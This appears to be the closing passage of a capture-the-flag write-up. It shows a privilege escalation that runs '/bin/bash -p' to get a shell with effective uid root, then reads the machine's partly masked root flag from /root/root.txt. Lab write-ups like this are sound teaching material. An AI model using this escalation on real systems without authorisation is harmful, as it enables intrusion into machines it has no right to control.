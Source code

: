 ## Getting a root shell
```bash
-bash-4.3$ /bin/bash -p
bash-4.3# id
uid=1001(james) gid=1001(james) euid=0(root) groups=1001(james)
```

We get a root shell.

## Reading root flag
```bash
bash-4.3# cat /root/root.txt                                                     
3c8c****************abf4b
```